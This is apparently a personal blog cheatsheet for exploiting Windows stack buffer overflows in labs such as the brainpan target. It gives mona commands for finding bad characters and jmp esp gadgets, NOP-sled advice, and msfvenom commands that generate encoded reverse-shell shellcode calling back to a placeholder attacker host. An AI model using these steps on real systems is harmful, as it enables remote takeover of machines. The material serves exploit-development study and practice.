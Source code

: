 ```yaml
---
title: "Buffer Overflow Cheatsheet"
date: 2021-12-01T00:20:30+01:00
categories:
  - Resources
tags:
  - Bufferoverflows
  - Cheatsheet
share: false
#layout: single
classes: wide
---
```


### Get control of EIP
First, lets use some [skeletons](https://github.com/acc3ssp0int-official/buffer-overflow-skeleton-scripts) to overwrite the EIP  

Then, let's generate a pattern to identify the offset  
`Todo: complete msfpatterncreate command and msfpatternfind`


### After getting control of EIP
Set a **working folder**  
`!mona config -set workingfolder C:\Users\shroudri\%p`

Generate bytearray  
`!mona bytearray`

Generate bytearray excluding a certain badchar\
`!mona bytearray -cpb "\x00"` <br>
`!mona bytearray -cpb "\x00\x0a\etc"`


Compare ESP with generated bytearray to check for badchars automatically  
`!mona compare -f C:\Users\shroudri\%p\bytearray.bin -a <ESP_ADRESS> #(e.g 00F23930)`

Generate revshell with msfvenom  
`msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai -f c LHOST=insertip LPORT=insrertport -b "\x00" EXITFUNC=thread`  
`msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai -f c LHOST=insertip LPORT=insrertport -b "\x00\x0a\xaf" EXITFUNC=thread`  


List all available programs        
`!mona modules`

### Next step: We want to make EIP point to ESP
This command will find an instruction within a program to jump to the ESP (FFE4 == jmp_esp)   
`!mona find -s "\xFF\xE4" -m brainpan.exe`

Because shikata_ga_nai is being used, a few NOPs must be introduced between EIP and Shellcode   
`NOPS= "x90"*16`